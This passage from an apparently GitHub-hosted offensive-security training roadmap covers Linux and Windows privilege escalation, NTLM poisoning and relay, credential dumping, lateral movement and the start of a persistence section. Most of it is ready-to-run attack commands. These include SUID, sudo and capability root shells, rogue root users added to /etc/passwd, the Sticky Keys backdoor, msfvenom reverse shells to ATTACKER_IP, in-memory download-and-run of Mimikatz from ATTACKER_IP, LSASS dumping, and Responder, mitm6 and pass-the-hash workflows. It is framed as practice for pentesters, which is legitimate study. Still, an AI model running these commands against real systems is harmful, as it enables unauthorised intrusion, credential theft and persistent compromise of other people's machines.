

</td></tr></table>
</div>

---

### Curriculum

| Resource | Type | Duration | Cost | Notes |
|----------|------|----------|------|-------|
| [PayloadsAllTheThings Linux PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Linux%20-%20Privilege%20Escalation.md) | Reference | 5 hours | FREE | Comprehensive reference. Keep open while practicing. |
| [GTFOBins](https://gtfobins.github.io/) | Reference | Ongoing | FREE | For every SUID binary or sudo rule, check here first. |
| [TryHackMe Linux PrivEsc](https://tryhackme.com/room/linuxprivesc) | Lab | 4 hours | FREE | Guided practice on a vulnerable machine. |
| [HackTricks Linux PrivEsc](https://book.hacktricks.xyz/linux-hardening/privilege-escalation) | Reference | Ongoing | FREE | Cross-reference with PayloadsAllTheThings. |

---

### 3.1 Situational Awareness - Run This Immediately

```bash
# Who are you?
id
whoami

# What system is this?
uname -a                   # Kernel version -> research kernel exploits
cat /etc/os-release        # OS and version
cat /proc/version

# Users and groups
cat /etc/passwd            # All users (UID 0 = root: check for multiple)
cat /etc/group
last                       # Last login history
history                    # Command history: passwords appear in plaintext regularly

# Network: where can you reach?
ip a
netstat -tulpn             # Listening services (internal ones you could not scan)
ss -tulpn

# Environment variables: credentials and keys hide here
env | grep -iE "pass|key|secret|token|api"

# Writable directories
find / -writable -type d 2>/dev/null | grep -v proc | grep -v sys

# Recently modified files
find / -mtime -7 -type f 2>/dev/null | grep -v proc | grep -v sys | grep -v run
```

---

### 3.2 SUID Binaries

```bash
# Find all SUID binaries
find / -perm -4000 -type f 2>/dev/null

# For each binary found, check GTFOBins: https://gtfobins.github.io/

# find with SUID:
find /etc/passwd -exec /bin/bash -p \;

# bash with SUID:
/bin/bash -p

# python3 with SUID:
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'

# vim with SUID:
vim -c ':!/bin/bash -p'

# cp with SUID (overwrite /etc/passwd):
echo "hacked::0:0:root:/root:/bin/bash" > /tmp/newroot
cp /tmp/newroot /etc/passwd
su hacked     # No password required; UID 0 = root

# nmap old versions (pre-5.35) with SUID:
nmap --interactive
nmap> !bash

# less with SUID:
less /etc/passwd
!/bin/bash
```

---

### 3.3 Sudo Rules

```bash
# What can you run as root without a password?
sudo -l
# Key outputs:
# (ALL) NOPASSWD: ALL              -> sudo su immediately
# (ALL) NOPASSWD: /usr/bin/find   -> check GTFOBins: find
# (root) NOPASSWD: /usr/bin/vim   -> GTFOBins: vim

# GTFOBins: sudo section examples
# find:
sudo find /etc/passwd -exec /bin/bash \;
# vim:
sudo vim -c ':!/bin/bash'
# python3:
sudo python3 -c 'import os; os.system("/bin/bash")'
# awk:
sudo awk 'BEGIN {system("/bin/bash")}'
# env:
sudo env /bin/bash
# tee (read any file as root):
echo "hacked::0:0:root:/root:/bin/bash" | sudo tee -a /etc/passwd
su hacked

# Sudo version exploit (CVE-2021-3156 Baron Samedit: sudo < 1.9.5p2)
sudo --version
# Affects: sudo 1.8.2 through 1.9.5p1
# Exploit: https://github.com/blasty/CVE-2021-3156
```

---

### 3.4 Linux Capabilities

```bash
# Find binaries with capabilities
getcap -r / 2>/dev/null

# Dangerous capabilities:
# cap_setuid: change to any UID including root
# cap_net_raw: send/receive raw packets
# cap_dac_read_search: bypass all file read permission checks

# python3 with cap_setuid:
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# perl with cap_setuid:
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'

# tar with cap_dac_read_search (read /etc/shadow):
tar -cvf /tmp/shadow.tar /etc/shadow
tar -xvf /tmp/shadow.tar -C /tmp/
cat /tmp/etc/shadow

# node with cap_setuid:
node -e "process.setuid(0); require('child_process').spawn('/bin/bash', {stdio: [0,1,2]})"
```

---

### 3.5 Cron Jobs and PATH Hijacking

```bash
# Find cron jobs running as root:
cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/ /etc/cron.weekly/
crontab -l
ls /var/spool/cron/crontabs/

# Writable script executed by root cron:
# If /etc/crontab has: * * * * * root /opt/backup.sh
ls -la /opt/backup.sh         # Is it writable?
echo "chmod +s /bin/bash" >> /opt/backup.sh
# Wait for cron to execute:
bash -p                        # Root shell

# PATH hijacking in cron:
# If root cron script runs a command without full path:
echo '#!/bin/bash' > /tmp/cleanup
echo 'chmod +s /bin/bash' >> /tmp/cleanup
chmod +x /tmp/cleanup
# Wait for cron execution:
bash -p

# Find scripts with writable parent directories:
find / -writable -name "*.sh" 2>/dev/null
find / -writable -path "/etc/cron*" 2>/dev/null
```

---

### 3.6 Writable /etc/passwd

```bash
# Check if /etc/passwd is writable:
[ -w /etc/passwd ] && echo "WRITABLE: exploit immediately"

# Generate a password hash:
openssl passwd -1 -salt crow "password123"

# Add a root-level user:
echo "crow:\$1\$crow\$HASH_VALUE:0:0:root:/root:/bin/bash" >> /etc/passwd
su crow     # Password: password123
```

---

### 3.7 NFS Misconfigurations

```bash
# From attacker: find NFS shares
showmount -e TARGET_IP

# Check /etc/exports on target:
# /share 192.168.1.0/24(rw,no_root_squash)  <- vulnerable
# /share 192.168.1.0/24(rw,root_squash)     <- not vulnerable

# Exploit: mount the share (you are root on attacker machine)
mkdir /tmp/nfs_mount
sudo mount -t nfs TARGET_IP:/share /tmp/nfs_mount

# Create SUID root binary on the mounted share:
sudo cp /bin/bash /tmp/nfs_mount/rootbash
sudo chmod +s /tmp/nfs_mount/rootbash

# On target as low-privilege user:
/share/rootbash -p    # SUID binary -> root shell
```

---

### 3.8 Kernel Exploits - Last Resort

```bash
# Get kernel version:
uname -r
# Example: 5.4.0-42-generic

# Research exploits:
searchsploit linux kernel 5.4

# DirtyPipe (CVE-2022-0847): Linux kernel 5.8 to 5.16.10
# Overwrites read-only files as any user (including /etc/passwd)
# https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
./exploit-1    # Modifies /etc/passwd to add root user
./exploit-2    # Overwrites SUID binary to execute /bin/sh

# GameOver(lay) (CVE-2023-2640 / CVE-2023-32629): Ubuntu-specific
# Affects: Ubuntu kernels with OverlayFS misconfig
# https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*" && u/python3 -c 'import os;os.setuid(0);os.system("bash")'
# Check target Ubuntu version first: lsb_release -a
```

---

### 3.9 Automated Enumeration with LinPEAS

```bash
# Download and run LinPEAS (always get latest):
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh 2>/dev/null | tee /tmp/linpeas_out.txt

# Run in memory (no file written to disk):
curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | bash

# LinPEAS output colour coding:
# RED background + RED text: 99% a PrivEsc vector: check immediately
# RED text: high-interest finding
# Yellow text: worth investigating manually

# Methodology after running LinPEAS:
# 1. Look at every RED/RED finding first
# 2. Manually verify each one (LinPEAS can have false positives)
# 3. Check each SUID binary against GTFOBins
# 4. Check each sudo rule against GTFOBins
# 5. Read the cron section carefully
```

---

### 3.10 Lab Exercise

Root 5+ Linux machines on HackTheBox using different PrivEsc methods each time:

```
Machine: [Name]
Initial Access Method: [how you got in]
PrivEsc Path: [what you exploited]
Commands Used: [exact]
Artifacts Generated: [what logs exist]
```

---

---

## SECTION 4: PRIVILEGE ESCALATION - WINDOWS

### What This Is and Why It Matters

Windows PrivEsc means reaching `NT AUTHORITY\SYSTEM`. SYSTEM runs above Administrator. Getting SYSTEM usually means reading all credentials stored on it, including domain credentials cached in LSASS.

### Windows PrivEsc Decision Tree

<div align="center">
<table><tr><td>



</td></tr></table>
</div>


---

### Curriculum

| Resource | Type | Duration | Cost | Notes |
|----------|------|----------|------|-------|
| [PayloadsAllTheThings Windows PrivEsc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Windows%20-%20Privilege%20Escalation.md) | Reference | 5 hours | FREE | Comprehensive reference. |
| [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) | Tool | 2 hours | FREE | Automated enumerator. |
| [Potato Exploits Guide](https://jlajara.gitlab.io/Potatoes_Windows_PrivEsc) | Reference | 2 hours | FREE | SeImpersonatePrivilege techniques explained. |
| [TryHackMe Windows PrivEsc](https://tryhackme.com/room/windows10privesc) | Lab | 5 hours | FREE | Guided practice. |
| [UACME](https://github.com/hfiref0x/UACME) | Tool | 2 hours | FREE | 70+ UAC bypass techniques catalogued and working. |

---

### 4.1 Situational Awareness - Run This Immediately

```powershell
# Who are you?
whoami
whoami /groups    # Group memberships: look for local/domain admin groups
whoami /priv      # Token privileges: READ THIS CAREFULLY (see 4.2)

# System info
systeminfo
hostname
echo %COMPUTERNAME%
echo %USERDOMAIN%     # Are we domain-joined?

# Running processes (look for AV, EDR, interesting services)
tasklist /svc
Get-Process | Select-Object Name, Id, Path, Company

# Network
ipconfig /all
netstat -ano

# Users and groups
net user
net localgroup administrators
net user administrator

# Installed software (look for outdated software with known CVEs)
Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |
  Select-Object DisplayName, DisplayVersion | Sort-Object DisplayName

# Active listening ports
netstat -ano | findstr LISTENING
```

---

### 4.2 Token Privileges - The Most Important Check

The single most important thing to check on any Windows shell is `whoami /priv`.

```powershell
whoami /priv

# SeImpersonatePrivilege -> SYSTEM via Potato exploits
# Most common in IIS, MSSQL, WCF service account shells.

# GodPotato (most modern: Windows 10/11 and Server 2022):
# https://github.com/BeichenDream/GodPotato
.\GodPotato.exe -cmd "cmd /c whoami"
.\GodPotato.exe -cmd "cmd /c net user hacker P@ssword123! /add && net localgroup administrators hacker /add"

# PrintSpoofer (Windows 10, Server 2016/2019/2022):
# https://github.com/itm4n/PrintSpoofer
.\PrintSpoofer.exe -i -c cmd.exe         # Interactive SYSTEM shell
.\PrintSpoofer.exe -c "whoami"

# SweetPotato (combines multiple potato techniques):
# https://github.com/CCob/SweetPotato
.\SweetPotato.exe -e EfsRpc -p cmd.exe

# SeDebugPrivilege -> Dump LSASS -> all cached credentials
.\procdump.exe -accepteula -ma lsass.exe C:\Temp\lsass.dmp
# Parse dump on attacker:
pip3 install pypykatz
pypykatz lsa minidump lsass.dmp

# SeBackupPrivilege -> Read any file
reg save HKLM\SAM C:\Temp\SAM
reg save HKLM\SYSTEM C:\Temp\SYSTEM
# Transfer both, extract hashes:
impacket-secretsdump -sam SAM -system SYSTEM LOCAL

# SeRestorePrivilege -> Write any file
# Replace sethc.exe (Sticky Keys) with cmd.exe:
copy /y C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
# At Windows lock screen: press SHIFT 5 times -> SYSTEM cmd.exe

# SeLoadDriverPrivilege -> Load vulnerable kernel driver (BYOVD: Phase 4)
```

---

### 4.3 Unquoted Service Paths

```powershell
# Find unquoted service paths:
wmic service get name,pathname,startmode |
  findstr /i /v "C:\Windows" |
  findstr /i /v '"' |
  findstr /i "auto"

# How Windows resolves C:\Program Files\Some Service\binary.exe:
# 1. C:\Program.exe
# 2. C:\Program Files\Some.exe
# 3. C:\Program Files\Some Service\binary.exe

# Check if you can write to the vulnerable directory:
icacls "C:\Program Files\"
# Look for: BUILTIN\Users:(W) or your username:(W)

# Drop your payload (see Section 10 for AV evasion):
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o Program.exe
copy Program.exe "C:\Program.exe"
sc stop "VulnerableServiceName"
sc start "VulnerableServiceName"
```

---

### 4.4 Weak Service Permissions

```powershell
# accesschk (Sysinternals): check who can modify a service
.\accesschk.exe -uwcqv "Everyone" *
.\accesschk.exe -uwcqv "BUILTIN\Users" *
.\accesschk.exe -uwcqv "Authenticated Users" *
# Look for: SERVICE_CHANGE_CONFIG permission

# If you can modify the service binary path:
sc qc VulnerableService
sc config VulnerableService binpath= "net user hacker P@ssword! /add"
sc start VulnerableService
sc config VulnerableService binpath= "net localgroup administrators hacker /add"
sc start VulnerableService
```

---

### 4.5 AlwaysInstallElevated

```powershell
# Check both keys: BOTH must be 1:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both = 0x1:
# Generate malicious MSI on attacker:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f msi -o evil.msi

# On target:
msiexec /quiet /qn /i C:\Temp\evil.msi
```

---

### 4.6 UAC Bypass - fodhelper.exe

```powershell
# fodhelper bypass (no prompt, works on Windows 10/11):
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" `
  -Name "DelegateExecute" -Value ""
Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" `
  -Name "(default)" -Value "cmd.exe /c start cmd.exe"
Start-Process "C:\Windows\System32\fodhelper.exe"
# Result: cmd.exe opens at high integrity without UAC prompt

# Cleanup:
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force

# For a comprehensive list of 70+ UAC bypass techniques:
# https://github.com/hfiref0x/UACME
```

---

### 4.7 DLL Hijacking

```powershell
# Use Process Monitor (procmon) to find DLL hijacking opportunities:
# Filter: Operation = CreateFile, Result = NAME NOT FOUND, Path ends with .dll

# Verify you can write to the directory:
icacls "C:\path\to\writable\dir\"

# Generate malicious DLL on attacker:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f dll -o missing_dll.dll

# Drop it in the writable path found by procmon
# Restart the vulnerable service or wait for the application to reload
```

---

### 4.8 Automated Enumeration with WinPEAS

```powershell
# Download: https://github.com/peass-ng/PEASS-ng/releases

# Run on target (but see Section 10 first: WinPEAS triggers Defender by default):
.\winPEAS.exe > C:\Temp\winpeas_out.txt 2>&1

# Run from memory (no disk write: preferred):
IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/winPEAS.ps1')

# WinPEAS colour coding:
# Yellow: high interest
# Cyan: users and passwords found
# Red: critical finding

# Also run Seatbelt (more granular, lower detection):
.\Seatbelt.exe -group=all > C:\Temp\seatbelt_out.txt
# https://github.com/GhostPack/Seatbelt
.\Seatbelt.exe CredEnum
.\Seatbelt.exe TokenPrivileges
```

**OPSEC note:** Writing `winPEAS.exe` to disk triggers Windows Defender on any modern Windows system. Use the PowerShell version loaded from memory, or use Seatbelt. Review Section 10 (AV/EDR Evasion) before running any offensive tools on target.

---

---

## SECTION 5: CREDENTIAL POISONING AND RELAY ATTACKS

### What This Is and Why It Matters

This section covers techniques that most beginner roadmaps completely omit. These are **passive** and **relay** attacks: ways to collect credentials and gain access without exploiting any vulnerability in the traditional sense.

**The core idea:** Windows networks use LLMNR (Link-Local Multicast Name Resolution) and NBT-NS (NetBIOS Name Service) to resolve hostnames when DNS fails. These protocols broadcast queries to the entire network segment. When a machine asks "who is FILESERVRE?" (a typo in a UNC path) and nobody answers, you answer. The machine trusts your response, attempts to authenticate to you, and sends its NTLMv2 hash. You crack it offline or relay it somewhere else.

This works on virtually every corporate Windows network that has not been hardened. It is consistently one of the highest-yield techniques in internal penetration testing.

### NTLM Relay Attack Flow

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### Curriculum

| Resource | Type | Duration | Cost | Notes |
|----------|------|----------|------|-------|
| [Responder GitHub](https://github.com/lgandx/Responder) | Tool | 3 hours | FREE | Read the full README and configuration file. |
| [TCM Security - Practical Ethical Hacking](https://academy.tcm-sec.com/) | Course | 4 hours | $30 | Best LLMNR/NBT-NS explanation available for beginners. |
| [NTLM Relay Guide - byt3bl33d3r](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017.html) | Blog | 2 hours | FREE | Conceptual foundation. Still accurate. |
| [mitm6 + ntlmrelayx Guide](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/) | Blog | 2 hours | FREE | Fox-IT original write-up. Read before using the tool. |

---

### 5.1 Responder - Passive NTLMv2 Capture

```bash
# Check your network interface:
ip a         # Note: eth0, wlan0, tun0, etc.

# Start Responder (run this throughout the engagement: it is passive):
sudo responder -I eth0 -wrf
# -I eth0: listen on this interface
# -w: WPAD server (serves a malicious WPAD proxy auto-config)
# -r: Answer to NetBIOS queries
# -f: Fingerprint OS/browser

# Responder captures appear like this:
# [*] [NBT-NS] Poisoned answer sent to 192.168.1.50 for name FILESERVRE
# [SMB] NTLMv2 Client   : 192.168.1.50
# [SMB] NTLMv2 Username : LAB\administrator
# [SMB] NTLMv2 Hash     : administrator::LAB:aabbccdd...:hash_here

# Hashes saved to:
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.1.50.txt

# Crack with hashcat:
hashcat -m 5600 /usr/share/responder/logs/*.txt /usr/share/wordlists/rockyou.txt
# -m 5600: NTLMv2 hash mode
```

---

### 5.2 NTLM Relay - From Hash to RCE

```bash
# REQUIREMENT: SMB signing must be disabled/not required on the target.
# Check SMB signing across the entire network:
nxc smb 192.168.1.0/24 --gen-relay-list relay_targets.txt
# relay_targets.txt will contain IPs where SMB signing is NOT enforced

# Setup: you need TWO tools running simultaneously:

# TERMINAL 1: Turn off SMB and HTTP in Responder
sudo nano /etc/responder/Responder.conf
# Set: SMB = Off, HTTP = Off

sudo responder -I eth0 -wrf    # Still poisons LLMNR, but does not handle auth

# TERMINAL 2: ntlmrelayx
impacket-ntlmrelayx -tf relay_targets.txt -smb2support
# Relays to all targets in the file -> dumps SAM hashes when victim has admin rights

# Relay to get an interactive shell:
impacket-ntlmrelayx -tf relay_targets.txt -smb2support -i
nc 127.0.0.1 11000    # Connect to the shell

# Relay to execute a command:
impacket-ntlmrelayx -tf relay_targets.txt -smb2support -c "whoami > C:\Temp\whoami.txt"

# Relay over HTTP to LDAP (useful when SMB relay is blocked):
impacket-ntlmrelayx -t ldap://DC_IP --no-smb-server --http-port 80
# Creates a new user in Active Directory or dumps LDAP data
```

---

### 5.3 mitm6 - IPv6 + DHCPv6 Poisoning (High-Yield)

**Why it works:** Most corporate networks are dual-stack (IPv4 and IPv6 both enabled), but the IPv6 infrastructure is rarely configured. Windows prefers IPv6 over IPv4 when both are available. By sending fake DHCPv6 responses, you become the IPv6 router. You also become their DNS server, so every hostname resolution that fails on IPv4 routes through you.

```bash
# Install mitm6:
pip3 install mitm6

# TERMINAL 1: Start mitm6 (target your domain):
sudo mitm6 -d lab.local
# mitm6 sends DHCPv6 advertisements every few seconds
# Machines accept your DHCPv6 lease -> you are their DNS server
# When they query any internal hostname, you answer with your IP
# This triggers NTLM authentication attempts to your machine

# TERMINAL 2: ntlmrelayx to capture and relay:
impacket-ntlmrelayx -6 -t ldaps://DC_IP -wh WPAD -l /tmp/loot/ --delegate-access
# -6: listen on IPv6
# -t ldaps://DC_IP: relay to domain controller over LDAPS
# -wh WPAD: host a fake WPAD file (triggers browser auth)
# -l /tmp/loot/: save LDAP enumeration results
# --delegate-access: configure resource-based constrained delegation for an
#                    attacker-controlled machine -> gives domain persistence

# What you get:
# - LDAP dump of Active Directory objects (users, groups, computers)
# - If domain admin account triggers auth -> possible DA via delegation
# - At minimum: full user enumeration from AD
```

> **Why this is higher-yield than Responder alone:** mitm6 does not rely on LLMNR typos. It proactively pushes itself as the DNS server for the entire subnet. Every machine on the segment will eventually ask it for DNS resolution.

---

### 5.4 NTLMv1 Downgrade

```bash
# Check if a target accepts NTLMv1 (requires Responder in analyze mode):
sudo responder -I eth0 -A
# -A: Analyze mode: do not poison, just observe

# Force NTLMv1 downgrade via Responder config:
sudo nano /etc/responder/Responder.conf
# Set: Challenge = 1122334455667788    # Fixed challenge for rainbow table attacks

sudo responder -I eth0 --lm
# --lm: enable LM hash capture

# Captured NTLMv1 with fixed challenge: submit to crack.sh (free online rainbow table)
# https://crack.sh/cracker/
# Most NTLMv1 hashes crack in seconds
```

---

---

## SECTION 6: POST-EXPLOITATION AND LATERAL MOVEMENT

### 6.1 Credential Dumping

```bash
# LSASS Dump: Windows caches credentials in LSASS process memory

# Method 1: ProcDump (Sysinternals: legitimate, signed binary)
.\procdump.exe -accepteula -ma lsass.exe C:\Temp\lsass.dmp
# Transfer dump to attacker, parse:
pypykatz lsa minidump lsass.dmp

# Method 2: Task Manager (no binary needed, GUI)
# Task Manager -> Details tab -> Right-click lsass.exe -> Create Dump File

# Method 3: Native PowerShell (no binary)
# Use Invoke-Mimikatz from memory (see Section 10 for AMSI bypass first)
IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'

# Method 4: impacket (remote dump: no binary on target)
impacket-secretsdump domain/user:pass@TARGET_IP
# If targeting a DC:
impacket-secretsdump domain/da-user:pass@DC_IP -just-dc
# Dumps all hashes from NTDS.dit (the domain hash database)

# DCSync: pull domain hashes without touching NTDS.dit
# Requires: Domain Admin rights OR DS-Replication-Get-Changes-All permission
impacket-secretsdump -just-dc domain/da-user:pass@DC_IP
```

**Detection artifacts:**
- ProcDump on LSASS: Sysmon Event ID 10 (ProcessAccess) with lsass.exe as target
- impacket-secretsdump: Remote registry access (Event ID 4663) + short-lived SMB connection
- DCSync: Event ID 4662 (Directory Service Access) with `DS-Replication-Get-Changes-All`

---

### 6.2 BloodHound Community Edition - Attack Path Visualisation

> **Critical:** The legacy BloodHound (v4 and below) is deprecated. Use BloodHound Community Edition (CE) by SpecterOps.

```bash
# Deploy BloodHound CE on your attacker machine (requires Docker):
curl -L https://ghcr.io/bloodhoundad/bloodhound/main/docker-compose.yml -o docker-compose.yml
docker compose -f docker-compose.yml up -d

# Access web interface: http://localhost:8080
# Get initial password:
docker compose logs | grep "Initial Password"

# Collect AD data:

# Option 1: RustHound (fastest, lowest AV detection, Rust binary)
# https://github.com/NH-RED-TEAM/RustHound
.\rusthound.exe -d domain.local --dc DC_IP --output /tmp/

# Option 2: SharpHound (most feature-complete, C#: more likely to be flagged)
.\SharpHound.exe -c All --zipfilename bloodhound_data.zip

# Option 3: BloodHound.py (Python: run from attacker, no binary on target)
pip3 install bloodhound
bloodhound-python -d domain.local -u user -p pass -dc DC_IP -c all

# Import: Web UI -> Administration -> File Ingest -> Upload zip/JSON files

# Key queries in BloodHound CE:
# "Find Shortest Paths to Domain Admins"
# "Find All Domain Admins"
# "Find Computers where Domain Users are Local Admin"
# "Find AS-REP Roastable Users"
# "Find Kerberoastable Users"

# Custom Cypher: find paths from your compromised user to DA:
MATCH p=shortestPath(
  (u:User {name:"COMPROMISED_USER@DOMAIN.LOCAL"})-[*1..]->(g:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"})
) RETURN p

# Mark owned nodes: right-click any node -> Mark as Owned
```

**OPSEC note:** SharpHound is detected by most EDR products in 2026-2027. RustHound has significantly lower detection rates. BloodHound.py from your attacker machine leaves LDAP query logs on the DC.

---

### 6.3 Pass-the-Hash (PtH)

```bash
# Spray a hash across an entire subnet:
nxc smb 192.168.1.0/24 -u administrator -H NTLM_HASH --local-auth
# --local-auth: authenticate as local account (not domain): avoids domain lockout
# Pwned! = you have local admin on that machine

# Get SYSTEM shell via SMB (noisy: creates PSEXESVC service):
impacket-psexec -hashes :NTLM_HASH administrator@TARGET_IP

# WMI shell (quieter: no service, uses DCOM):
impacket-wmiexec -hashes :NTLM_HASH administrator@TARGET_IP

# SMB shell (no disk writes):
impacket-smbexec -hashes :NTLM_HASH administrator@TARGET_IP

# WinRM shell (quietest if WinRM is enabled):
evil-winrm -i TARGET_IP -u administrator -H NTLM_HASH

# RDP with PtH (requires Restricted Admin mode):
xfreerdp /v:TARGET_IP /u:administrator /pth:NTLM_HASH /cert-ignore
```

---

### 6.4 Pass-the-Ticket (PtT) - Kerberos

```bash
# List current tickets on Windows:
klist

# Dump tickets with mimikatz:
mimikatz # sekurlsa::tickets /export
# Creates: [user@service].kirbi files

# Import a stolen ticket:
mimikatz # kerberos::ptt Administrator@krbtgt-LAB.LOCAL.kirbi
# Or with Rubeus:
.\Rubeus.exe ptt /ticket:base64_encoded_ticket_here

# Convert kirbi to ccache (for impacket on Linux):
python3 /opt/impacket/utils/ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=/path/to/ticket.ccache
impacket-secretsdump -k -no-pass domain/user@DC_IP
```

---

### 6.5 WMI Lateral Movement

```bash
# impacket-wmiexec (semi-interactive, no service created):
impacket-wmiexec domain/user:pass@TARGET_IP
impacket-wmiexec -hashes :NTLM_HASH domain/user@TARGET_IP

# Native Windows (from a compromised Windows machine):
wmic /node:TARGET_IP /user:DOMAIN\user /password:pass \
  process call create "cmd.exe /c whoami > C:\Temp\out.txt"

# PowerShell Remoting (WinRM-based):
$cred = New-Object System.Management.Automation.PSCredential(
  "DOMAIN\user", (ConvertTo-SecureString "Password123!" -AsPlainText -Force))
Invoke-Command -ComputerName TARGET_IP -Credential $cred -ScriptBlock { whoami; hostname }
```

---

### 6.6 Basic Persistence

```powershell
# Registry Run Keys
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Updater" /t REG_SZ /d "C:\Temp\payload.exe" /f
